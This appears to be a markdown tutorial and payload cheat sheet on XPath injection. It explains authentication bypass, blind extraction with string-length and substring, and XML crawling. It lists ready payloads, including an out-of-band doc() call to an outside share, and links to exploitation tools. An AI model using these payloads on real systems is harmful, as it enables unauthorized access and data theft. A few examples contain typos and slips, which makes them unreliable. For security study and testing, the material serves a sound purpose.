# XPATH INJECTION
## First, we must know what is XPath injection attack?
XPath injection attack is like the SQL injection attack in which the website uses user-given information to generate an XPath that will query from XML data. If the website is vulnerable to XPath injection, then we can send our malformed information into the website and access the data or file which normally may not be accessed. We can also see how the XML data is structured. 

## What is an XML query or XPath?
when we need to access the XML data, we need to send a query to the database which is done with the help of XPath. It is a type of simple descriptive statement that allows the XML query to locate a piece of information. XPath is a standard language; its notation/syntax is always implementation-independent, which means the attack may be automated. There are no different dialects as it takes place in requests to the SQL databases. There are no access level permissions, and it is possible to refer to almost any part of an XML document, unlike SQL which allows restrictions on databases, tables, or columns.

- [XPath Injection](#XPath-Injection)
  - [Types of XPath Injection](#Types-of-XPath-Injection)
    - [1. Simple XPath Injection](#Simple-XPath-Injection)
    - [2. Blind XPath Injection](#Blind-XPath-Injection)
      - [Boolinezation](#Boolinezation)
      - [XML Crawling](#XML-Crawling)
  
  - [Payloads for XPath Injection](#Payloads-for-XPath-Injection)
    - [Blind Exploitation](#Blind-Exploitation)  
      - [1. Size of a string](#Size-of-a-string)
      - [2. Extract a character](#Extract-a-character)
      - [3. Out Of Band Exploitation](#Out-Of-Band-Exploitation)
  - [Tools for XPath Injection](#Tools-for-xpath-injection)
    
## XPath Injection
Suppose there is a website that is using the XML data to access the user information and below is the query for the authentication of the user.

`<?xml version="1.0" encoding="utf-8"?> 
<Employees> 
 <Employee ID="1"> 
 <Name>Sam</Name> 
 <UserName>Johns</UserName> 
 <Password>This is Secret</Password> 
</Employee> 
 <Employee ID="2"> 
 <Name>Peter</Name> 
 <UserName>Pan</UserName> 
 <Password>Pass</Password> 
</Employee> 
</Employees>`

To get logged in to the website the user must enter the username and password. Then the XPath will generate an XML query to check the credentials that the user entered. The query will look like this:

`"//Employee[UserName/text()='" & Request("UserName") & "' And Password/text()='" & Request("Password") & "']"`

Now if we insert our malicious code in the username section then the query which will be generated will be as follows:

`Username: test' or 1=1 or 'a'='a 
 Password: test
 XPath Query:
 //Employee[UserName/text() ='test' or 1=1 or 'a'='a' And Password/text()='test']
 This is equivalent to:
 //Employee[(UserName/text()='test' or 1=1) or ('a'='a' And Password/text()='test')]`
 
When the query is executed the first part becomes true which is 1=1 and the second part is neglected. The password becomes irrelevant, and the attacker gets unauthorized access to the website.

## Blind XPath Injection
Blind XPath Injection attacks can be used to extract data from an application that embeds user-supplied data in an unsafe way. This attack is performed when the attacker doesn't know about the structure of the XML data, or error messages are suppressed and are only able to pull one piece of information at a time by asking true/false questions (booleanized queries), much like Blind SQL Injection.

Blind XPath injection can be mounted by using two methods:
        1. Boolenization.
        2. XML crawling.


## Boolinezation
By using this technique, the attacker can know whether the expression is true or not. Suppose an attacker wants to log in to a website that is vulnerable to blind XPath injection then if the login is successful then it will return "True" and failed log-in will return "False". In this, a small amount of information is targeted via the analyzed character or number.
When the attacker focuses on a string, they may reveal it in its entirety by checking every single character within the class/range of characters this string belongs to.
Using a string-length(S) function, where S is a string, the attacker may find out the length of this string. With the appropriate number of substring(S,N,1) function iterations, where S is a previously mentioned string, N is a start character, and "1" is a next character counting from N character, the attacker can enumerate the whole string.

`Code:
<?xml version="1.0" encoding="UTF-8"?>
<data>
 <user>
 <login>admin</login>
 <password>test</password>
 <realname>SuperUser</realname>
 </user>
 <user>
 <login>Atharv</login>
 <password>12345</password>
 <realname>Simple User</realname>
 </user>
</data>`

Function:
- `string.stringlength(//user\[position()=1\]/child::node()\[position()=2\])` returns the length of the second string of the first user (8),
- `substring((//user\[position()=1\]/child::node()\[position()=2),1,1)` returns the first character of this user ('r').

## XML Crawling
To get to know the XML document structure the attacker may use:
- count(expression)

  `count(//user/child::node()`
   This will return the number of nodes (in this case 2).

- string-length(string)

  `substring((//user[position()=1]/child::node()[position()=2]),1,1)="a"`
  This query will confirm (True) or deny (False) that the first character of the user ('admin') password is an "a" character.

If the login form would look like this:
C#:

`String FindUser;
 FindUser = "//user[login/text()='" + Request("Username") + "' And password/text()='" + Request("Password") + "']";`
 
then the attacker should inject the following code:

`Username: ' or substring((//user[position()=1]/child::node()[position()=2]),1,1)="a" or ''='`

The XPath syntax may remind you of common SQL Injection attacks but the attacker must consider that this language disallows commenting out the rest of the expression. To omit this limitation the attacker should use OR expressions to void all expressions, which may disrupt the attack.

Because of Boolenization the number of queries, even within a small XML document, may be extremely high (thousands, hundreds of thousands, and more). That is why this attack is not conducted manually. Knowing a few basic XPath functions, the attacker is able to write an application in a short time which will rebuild the structure of the document and will fill it with data by itself.

## Payloads for XPath Injection
Query:

`"string(//user[name/text()='" +vuln_var1+ "' and password/text()='" +vuln_var1+ "']/account/text())"`

Payloads:

`' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c`

# Blind Exploitation
## 1. Size of a string

`and string-length(account)=SIZE_INT`

## 2. Extract a character

 `substring(//user[userid=5]/username,2,1)=CHAR_HERE
  substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)`
  
## 3. Out Of Band Exploitation

  `http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')` 
  
# Tools for XPath Injection

- [xcat](https://github.com/orf/xcat "xcat")  - Automate XPath injection attacks to retrieve documents
- [xxxpwn](https://github.com/feakk/xxxpwn "xxxpwn")  - Advanced XPath Injection Tool
- [xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart "xxxpwn_smart")  - A fork of xxxpwn using predictive text
- [xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer "xpath-blind-explorer")
- [XmlChor](https://github.com/Harshal35/XMLCHOR "XmlChor")  - Xpath injection exploitation tool

# References:

1. [OWASP XPath Injection](https://owasp.org/www-community/attacks/XPATH_Injection)
2. [Payload All Things: XPath Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection)
